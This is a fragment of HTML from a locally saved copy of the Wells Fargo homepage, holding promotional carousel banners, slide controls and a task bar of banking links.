<DIV class="carouselFrame item1" style="WIDTH: 1178px; RIGHT: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; LEFT: 0px; DISPLAY: block; TOP: 0px; PADDING-RIGHT: 0px">
<SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">Begin item 1</SPAN>
 <SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">Begin item 1</SPAN> 
<DIV lang=en class=iaRendered style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px" data-offer-id="C_chk_everydaychecking_hpprimary_web" data-slot-id="WF_CON_HP_PRIMARY_BNR_1">
<DIV class=c3Img style="WIDTH: 1200px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px" data-ctid="tcm:91-146911-32" data-cid="tcm:402-207718-16">
<IMG style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; WIDTH: 1200px; MARGIN-TOP: 0px; BORDER-BOTTOM: 0px; POSITION: absolute; LEFT: 589px; BORDER-LEFT: 0px; transform: translateX(-50%)" alt="" src="https://www20.wellsfargomedia.com/assets/images/contextual/banner/checking/1200x532/6825911_gettyimages-1153899955_img_hph_1200x532.jpg"></DIV>
<DIV class=inner style="WIDTH: 970px; POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px auto; PADDING-RIGHT: 0px">
<DIV class=marqueeContent style="WIDTH: 351px; RIGHT: 0px; MARGIN-TOP: 17px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 53px; PADDING-LEFT: 0px; MARGIN-LEFT: 85px; LEFT: 485px; PADDING-RIGHT: 0px; MARGIN-RIGHT: 40px">
<DIV class="marqueecontentinner marqueetheme11" style="HEIGHT: 283px; COLOR: rgb(68,70,74); PADDING-BOTTOM: 15px; PADDING-TOP: 0px; PADDING-LEFT: 0px; DISPLAY: flex; PADDING-RIGHT: 0px; flex-direction: column">
<H2 style="COLOR: rgb(68,70,74); FONT: 36px/36px Georgia; MARGIN: 0px 0px 18px">Simplify your life</H2><SPAN style="MARGIN-BOTTOM: 24px; FONT: 500 15px/19px Verdana, Arial, sans-serif; DISPLAY: block">Your money's at hand with Everyday Checking</SPAN><A role=button class=c7 style="TEXT-DECORATION: none; COLOR: rgb(68,70,74); FONT: bold 18px Verdana, Arial, sans-serif; DISPLAY: block; flex-grow: 1" href="https://www.wellsfargo.com/checking/everyday/" data-tracking-id="">Start now</A></DIV></DIV>
</DIV></DIV><SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">End item 1</SPAN>
 <SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">End item 1</SPAN></DIV>
<DIV class=controls style="HEIGHT: 29px; RIGHT: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; TEXT-ALIGN: center; PADDING-TOP: 0px; PADDING-LEFT: 0px; LEFT: 0px; PADDING-RIGHT: 0px; BOTTOM: 160px"><A class=show1 style="FONT-SIZE: 0px; TEXT-DECORATION: none; HEIGHT: 20px; WIDTH: 20px; VERTICAL-ALIGN: middle; POSITION: relative; MARGIN-LEFT: 0px; DISPLAY: inline-block" href="https://www.wellsfargo.com/#_frame1">
<SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">item 1 of 3</SPAN>
 <IMG style="BORDER-TOP: 0px; HEIGHT: 20px; BORDER-RIGHT: 0px; WIDTH: 20px; BACKGROUND-IMAGE: url(https://www01.wellsfargomedia.com/assets/images/css/template/homepage/icon-marquee-dot-inactive.svg); BACKGROUND-REPEAT: no-repeat; BORDER-BOTTOM: 0px; BORDER-LEFT: 0px" alt="" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/icon-marquee-dot-inactive.svg"></A>
 <A class=show2 style="FONT-SIZE: 0px; TEXT-DECORATION: none; HEIGHT: 20px; WIDTH: 20px; VERTICAL-ALIGN: middle; POSITION: relative; MARGIN-LEFT: 7px; DISPLAY: inline-block" href="https://www.wellsfargo.com/#_frame2">
<SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">item 2 of 3</SPAN>
 <IMG style="BORDER-TOP: 0px; HEIGHT: 20px; BORDER-RIGHT: 0px; WIDTH: 20px; BACKGROUND-IMAGE: url(https://www01.wellsfargomedia.com/assets/images/css/template/homepage/icon-marquee-dot-inactive.svg); BACKGROUND-REPEAT: no-repeat; BORDER-BOTTOM: 0px; BORDER-LEFT: 0px" alt="" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/icon-marquee-dot-inactive.svg"></A>
 <A class=show3 style="FONT-SIZE: 0px; TEXT-DECORATION: none; HEIGHT: 20px; WIDTH: 20px; VERTICAL-ALIGN: middle; POSITION: relative; MARGIN-LEFT: 7px; DISPLAY: inline-block" href="https://www.wellsfargo.com/#_frame3">
<SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">item 3 of 3</SPAN>
 <IMG style="BORDER-TOP: 0px; HEIGHT: 20px; BORDER-RIGHT: 0px; WIDTH: 20px; BACKGROUND-IMAGE: url(https://www01.wellsfargomedia.com/assets/images/css/template/homepage/icon-marquee-dot-inactive.svg); BACKGROUND-REPEAT: no-repeat; BORDER-BOTTOM: 0px; BORDER-LEFT: 0px" alt="" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/icon-marquee-dot-inactive.svg"></A></DIV>
<DIV class="paddles alwaysOn" style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px"><A class=right style="OVERFLOW: hidden; TEXT-DECORATION: none; HEIGHT: 38px; WIDTH: 22px; POSITION: absolute; FLOAT: right; MARGIN-LEFT: 521px; LEFT: 589px; Z-INDEX: 1; DISPLAY: block; TOP: 157px" href="https://www.wellsfargo.com/#_nextFrame">
<IMG style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BACKGROUND-IMAGE: url(https://www01.wellsfargomedia.com/assets/images/css/template/homepage/home_sprite_image.png); BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -114px; BORDER-LEFT: 0px; TOP: 0px" alt="Next Slide" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"></A></DIV>
<DIV class="carouselFrame incomingFrame" style="WIDTH: 1178px; RIGHT: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; LEFT: 105px; DISPLAY: block; TOP: 0px; PADDING-RIGHT: 0px">
<SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">Begin item 2</SPAN>
 <SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">Begin item 2</SPAN> 
<DIV lang=en class=iaRendered style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px" data-offer-id="C_sav_wtosave_hpprimary_web" data-slot-id="WF_CON_HP_PRIMARY_BNR_2">
<DIV class=c3Img style="WIDTH: 1200px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px" data-ctid="tcm:91-146911-32" data-cid="tcm:402-207066-16">
<IMG class=deferred style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; WIDTH: 1200px; MARGIN-TOP: 0px; BORDER-BOTTOM: 0px; POSITION: absolute; LEFT: 589px; BORDER-LEFT: 0px; transform: translateX(-50%)" alt="" src="https://www20.wellsfargomedia.com/assets/images/contextual/banner/savings/1200x532/6818104_gettyimages-890847206_1200_532.jpg" data-deferred-src="https://www20.wellsfargomedia.com/assets/images/contextual/banner/savings/1200x532/6818104_gettyimages-890847206_1200_532.jpg"></DIV>
<DIV class=inner style="WIDTH: 970px; POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px auto; PADDING-RIGHT: 0px">
<DIV class=marqueeContent style="WIDTH: 351px; RIGHT: 0px; MARGIN-TOP: 17px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 53px; PADDING-LEFT: 0px; MARGIN-LEFT: 85px; LEFT: 485px; PADDING-RIGHT: 0px; MARGIN-RIGHT: 40px"></DIV></DIV></DIV>
<SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">End item 2</SPAN>
 <SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">End item 2</SPAN></DIV>
<DIV class=controls style="HEIGHT: 29px; RIGHT: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; TEXT-ALIGN: center; PADDING-TOP: 0px; PADDING-LEFT: 0px; LEFT: 0px; PADDING-RIGHT: 0px; BOTTOM: 160px"><A class=show1 style="FONT-SIZE: 0px; TEXT-DECORATION: none; HEIGHT: 20px; WIDTH: 20px; VERTICAL-ALIGN: middle; POSITION: relative; MARGIN-LEFT: 0px; DISPLAY: inline-block" href="file:///C:/Users/Administrator/Desktop/Wells%20Fargo%20&acirc;&#8364;&#8220;%20Banking.html#_frame1">
<SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">item 1 of 4</SPAN>
 <IMG style="BORDER-TOP: 0px; HEIGHT: 20px; BORDER-RIGHT: 0px; WIDTH: 20px; BACKGROUND-IMAGE: url(https://www01.wellsfargomedia.com/assets/images/css/template/homepage/icon-marquee-dot-inactive.svg); BACKGROUND-REPEAT: no-repeat; BORDER-BOTTOM: 0px; BORDER-LEFT: 0px" alt="" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/icon-marquee-dot-inactive.svg"></A>
 <A class=show2 style="FONT-SIZE: 0px; TEXT-DECORATION: none; HEIGHT: 20px; WIDTH: 20px; VERTICAL-ALIGN: middle; POSITION: relative; MARGIN-LEFT: 7px; DISPLAY: inline-block" href="file:///C:/Users/Administrator/Desktop/Wells%20Fargo%20&acirc;&#8364;&#8220;%20Banking.html#_frame2">
<SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">item 2 of 4</SPAN>
 <IMG style="BORDER-TOP: 0px; HEIGHT: 20px; BORDER-RIGHT: 0px; WIDTH: 20px; BACKGROUND-IMAGE: url(https://www01.wellsfargomedia.com/assets/images/css/template/homepage/icon-marquee-dot-inactive.svg); BACKGROUND-REPEAT: no-repeat; BORDER-BOTTOM: 0px; BORDER-LEFT: 0px" alt="" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/icon-marquee-dot-inactive.svg"></A>
 <A class=show3 style="FONT-SIZE: 0px; TEXT-DECORATION: none; HEIGHT: 20px; WIDTH: 20px; VERTICAL-ALIGN: middle; POSITION: relative; MARGIN-LEFT: 7px; DISPLAY: inline-block" href="file:///C:/Users/Administrator/Desktop/Wells%20Fargo%20&acirc;&#8364;&#8220;%20Banking.html#_frame3">
<SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">item 3 of 4</SPAN>
 <IMG style="BORDER-TOP: 0px; HEIGHT: 20px; BORDER-RIGHT: 0px; WIDTH: 20px; BACKGROUND-IMAGE: url(https://www01.wellsfargomedia.com/assets/images/css/template/homepage/icon-marquee-dot-inactive.svg); BACKGROUND-REPEAT: no-repeat; BORDER-BOTTOM: 0px; BORDER-LEFT: 0px" alt="" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/icon-marquee-dot-inactive.svg"></A>
 <A class=show4 style="FONT-SIZE: 0px; TEXT-DECORATION: none; HEIGHT: 20px; WIDTH: 20px; VERTICAL-ALIGN: middle; POSITION: relative; MARGIN-LEFT: 7px; DISPLAY: inline-block" href="file:///C:/Users/Administrator/Desktop/Wells%20Fargo%20&acirc;&#8364;&#8220;%20Banking.html#_frame4">
<SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">item 4 of 4</SPAN>
 <IMG style="BORDER-TOP: 0px; HEIGHT: 20px; BORDER-RIGHT: 0px; WIDTH: 20px; BACKGROUND-IMAGE: url(https://www01.wellsfargomedia.com/assets/images/css/template/homepage/icon-marquee-dot-inactive.svg); BACKGROUND-REPEAT: no-repeat; BORDER-BOTTOM: 0px; BORDER-LEFT: 0px" alt="" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/icon-marquee-dot-inactive.svg"></A></DIV>
<DIV class="paddles alwaysOn" style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px"><A class=right style="OVERFLOW: hidden; TEXT-DECORATION: none; HEIGHT: 38px; WIDTH: 22px; POSITION: absolute; FLOAT: right; MARGIN-LEFT: 521px; LEFT: 589px; Z-INDEX: 1; DISPLAY: block; TOP: 157px" href="file:///C:/Users/Administrator/Desktop/Wells%20Fargo%20&acirc;&#8364;&#8220;%20Banking.html#_nextFrame">
<IMG style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BACKGROUND-IMAGE: url(https://www01.wellsfargomedia.com/assets/images/css/template/homepage/home_sprite_image.png); BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -114px; BORDER-LEFT: 0px; TOP: 0px" alt="Next Slide" src="https://www01.wellsfargomedia.com/assets/images/css/template/homepage/home_sprite_image.png"></A></DIV></DIV></DIV>
<DIV role=region aria-label="A group of 5 tasks." id=taskbar style="MAX-WIDTH: 1200px; HEIGHT: 110px; RIGHT: 0px; BORDER-BOTTOM: rgb(255,205,65) 2px solid; POSITION: absolute; PADDING-BOTTOM: 24px; TEXT-ALIGN: center; PADDING-TOP: 24px; PADDING-LEFT: 0px; MARGIN-LEFT: -600px; LEFT: 589px; PADDING-RIGHT: 0px; BOTTOM: 0px; MARGIN-RIGHT: -485px" data-ctid="tcm:224-146934-32" data-cid="tcm:242-147044-16">
<DIV class=inner style="WIDTH: 970px; POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px auto; PADDING-RIGHT: 0px">
<UL style="LIST-STYLE-TYPE: none; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px; PADDING-RIGHT: 0px">
<LI class=task style="HEIGHT: 96px; WIDTH: 173px; FLOAT: left; PADDING-BOTTOM: 8px; PADDING-TOP: 8px; PADDING-LEFT: 10px; BORDER-LEFT: medium none; MARGIN: 0px; LINE-HEIGHT: 1.4em; PADDING-RIGHT: 10px">
<DIV lang=en class=iaRendered style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px" data-offer-id="C_chk_everydaychecking_toptask_web" data-slot-id="WF_CON_HP_TOP_TASK_1">
<DIV class=taskContentWrapper style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; DISPLAY: block; PADDING-RIGHT: 0px" data-ctid="tcm:91-146909-32" data-cid="tcm:402-207715-16"><A class=i7 style="TEXT-DECORATION: none; POSITION: relative; COLOR: rgb(20,20,20); PADDING-TOP: 50px; FONT: 15px/22px Verdana, Arial, sans-serif; DISPLAY: block; transition: all 500ms linear 0s" href="https://www.wellsfargo.com/checking/everyday/" data-tracking-id="">
<DIV class=taskImageContainer style="RIGHT: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; LEFT: 0px; TOP: 0px; PADDING-RIGHT: 0px"></DIV>Simplify life: Everyday Checking</A></DIV></DIV></LI>
<LI class=task style="HEIGHT: 96px; WIDTH: 173px; FLOAT: left; PADDING-BOTTOM: 8px; PADDING-TOP: 8px; PADDING-LEFT: 10px; BORDER-LEFT: rgb(181,173,173) 1px solid; MARGIN: 0px; LINE-HEIGHT: 1.4em; PADDING-RIGHT: 10px">
<DIV lang=en class=iaRendered style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px" data-offer-id="C_sav_wtosave_toptask_web" data-slot-id="WF_CON_HP_TOP_TASK_2">
<DIV class=taskContentWrapper style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; DISPLAY: block; PADDING-RIGHT: 0px" data-ctid="tcm:91-146909-32" data-cid="tcm:402-207092-16"><A class=i7 style="TEXT-DECORATION: none; POSITION: relative; COLOR: rgb(20,20,20); PADDING-TOP: 50px; FONT: 15px/22px Verdana, Arial, sans-serif; DISPLAY: block; transition: all 500ms linear 0s" href="https://www.wellsfargo.com/savings-cds/way2save/" data-tracking-id="">
<DIV class=taskImageContainer style="RIGHT: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; LEFT: 0px; TOP: 0px; PADDING-RIGHT: 0px"></DIV>Automatically save for tomorrow</A></DIV></DIV></LI>
<LI class=task style="HEIGHT: 96px; WIDTH: 173px; FLOAT: left; PADDING-BOTTOM: 8px; PADDING-TOP: 8px; PADDING-LEFT: 10px; BORDER-LEFT: rgb(181,173,173) 1px solid; MARGIN: 0px; LINE-HEIGHT: 1.4em; PADDING-RIGHT: 10px">
<DIV lang=en class=cmsDefault style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px; VISIBILITY: visible !important" data-slot-id="WF_CON_HP_TOP_TASK_3">
<DIV class=taskContentWrapper style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; DISPLAY: block; PADDING-RIGHT: 0px" data-ctid="tcm:91-146909-32" data-cid="tcm:84-146975-16"><A class=i7 style="TEXT-DECORATION: none; POSITION: relative; COLOR: rgb(20,20,20); PADDING-TOP: 50px; FONT: 15px/22px Verdana, Arial, sans-serif; DISPLAY: block; transition: all 500ms linear 0s" href="https://www.wellsfargo.com/online-banking/my-money-map/">
<DIV class=taskImageContainer style="RIGHT: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; LEFT: 0px; TOP: 0px; PADDING-RIGHT: 0px"></DIV>Free online budgeting tools</A></DIV></DIV></LI>
<LI class=task style="HEIGHT: 96px; WIDTH: 173px; FLOAT: left; PADDING-BOTTOM: 8px; PADDING-TOP: 8px; PADDING-LEFT: 10px; BORDER-LEFT: rgb(181,173,173) 1px solid; MARGIN: 0px; LINE-HEIGHT: 1.4em; PADDING-RIGHT: 10px">
<DIV class=taskContentWrapper style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; DISPLAY: block; PADDING-RIGHT: 0px">
<DIV aria-expanded=false role=button tabIndex=0 aria-controls=findRoutingOrAccountNumber class=taskSecondstate style="TEXT-DECORATION: none; WIDTH: 159px; POSITION: relative; COLOR: rgb(20,20,20); PADDING-BOTTOM: 1px; PADDING-TOP: 50px; FONT: 15px/22px Verdana, Arial, sans-serif; PADDING-LEFT: 0px; MARGIN: 0px auto; DISPLAY: block; PADDING-RIGHT: 0px; transition: all 500ms linear 0s">
<DIV class=taskImageContainer style="RIGHT: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; LEFT: 0px; TOP: 0px; PADDING-RIGHT: 0px"></DIV>Find routing or account number</DIV></DIV></LI>
<LI class=task style="HEIGHT: 96px; WIDTH: 173px; FLOAT: left; PADDING-BOTTOM: 8px; PADDING-TOP: 8px; PADDING-LEFT: 10px; BORDER-LEFT: rgb(181,173,173) 1px solid; MARGIN: 0px; LINE-HEIGHT: 1.4em; PADDING-RIGHT: 10px">
<DIV class=taskContentWrapper style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; DISPLAY: block; PADDING-RIGHT: 0px">
<DIV aria-expanded=false role=button tabIndex=0 aria-controls=checkTodaysRates class=taskSecondstate style="TEXT-DECORATION: none; WIDTH: 159px; POSITION: relative; COLOR: rgb(20,20,20); PADDING-BOTTOM: 1px; PADDING-TOP: 50px; FONT: 15px/22px Verdana, Arial, sans-serif; PADDING-LEFT: 0px; MARGIN: 0px auto; DISPLAY: block; PADDING-RIGHT: 0px; transition: all 500ms linear 0s">
<DIV class=taskImageContainer style="RIGHT: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; LEFT: 0px; TOP: 0px; PADDING-RIGHT: 0px"></DIV>Check today&#8217;s rates</DIV></DIV></LI></UL></DIV></DIV></DIV>
<DIV class="c63 html5section" style="OVERFLOW: hidden; HEIGHT: 485px; WIDTH: 970px; POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 36px auto 0px; PADDING-RIGHT: 0px" data-ctid="tcm:224-146932-32" data-cid="tcm:242-147043-16">
<A role=button tabIndex=-1 aria-hidden=true class="paddle prevPaddle" style="OVERFLOW: hidden; CURSOR: pointer; TEXT-DECORATION: none; HEIGHT: 22px; WIDTH: 38px; RIGHT: 116px; POSITION: absolute; PADDING-BOTTOM: 10px; Z-INDEX: 2; DISPLAY: block; TOP: 28px" href="javascript:void(0);">
<IMG style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BACKGROUND-IMAGE: url(https://www01.wellsfargomedia.com/assets/images/css/template/homepage/home_sprite_image.png); BORDER-BOTTOM: 0px; POSITION: relative; LEFT: 0px; BORDER-LEFT: 0px; TOP: -6px" alt="Previous Slide" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"></A>
 <A role=button tabIndex=-1 aria-hidden=true class="paddle prevPaddle" style="OVERFLOW: hidden; CURSOR: pointer; TEXT-DECORATION: none; HEIGHT: 22px; WIDTH: 38px; RIGHT: 116px; POSITION: absolute; PADDING-BOTTOM: 10px; Z-INDEX: 2; DISPLAY: block; TOP: 28px" href="javascript:void(0);">
<IMG style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BACKGROUND-IMAGE: url(https://www01.wellsfargomedia.com/assets/images/css/template/homepage/home_sprite_image.png); BORDER-BOTTOM: 0px; POSITION: relative; LEFT: 0px; BORDER-LEFT: 0px; TOP: -6px" alt="Previous Slide" src="https://www01.wellsfargomedia.com/assets/images/css/template/homepage/home_sprite_image.png"></A> 
<DIV class=c63controlsWrapper style="OVERFLOW: hidden; HEIGHT: 366px; WIDTH: 195px; RIGHT: 40px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; Z-INDEX: 1; TOP: 60px; PADDING-RIGHT: 0px">
<UL role=tablist class=c63controls style="LIST-STYLE-TYPE: none; POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px; TOP: -123px; PADDING-RIGHT: 0px">
<LI aria-expanded=false role=tab aria-posinset=7 aria-selected=false aria-controls=nbaDefaultPanels7 aria-setsize=7 id=nbaDefault6 class="show6 show7" style="CURSOR: pointer; HEIGHT: 119px; POSITION: relative; COLOR: rgb(255,255,255); MARGIN: 0px 0px 4px; DISPLAY: block; LINE-HEIGHT: 1.4em" data-ia-code="C_wtr_investment_hpcarousel_web">
<DIV class=thumbText style="BORDER-TOP: rgb(181,173,173) 1px solid; HEIGHT: 87px; BORDER-RIGHT: rgb(181,173,173) 1px solid; WIDTH: 163px; BORDER-BOTTOM: rgb(181,173,173) 1px solid; POSITION: absolute; COLOR: rgb(255,255,255); PADDING-BOTTOM: 15px; TEXT-ALIGN: center; PADDING-TOP: 15px; PADDING-LEFT: 15px; BORDER-LEFT: rgb(181,173,173) 1px solid; Z-INDEX: 1; LINE-HEIGHT: 89px; PADDING-RIGHT: 15px; inset: 0px">
<SPAN style="VERTICAL-ALIGN: middle; COLOR: rgb(59,51,49); FONT: 18px/23px Verdana, Arial, sans-serif; DISPLAY: inline-table">Investing Basics</SPAN></DIV></LI>
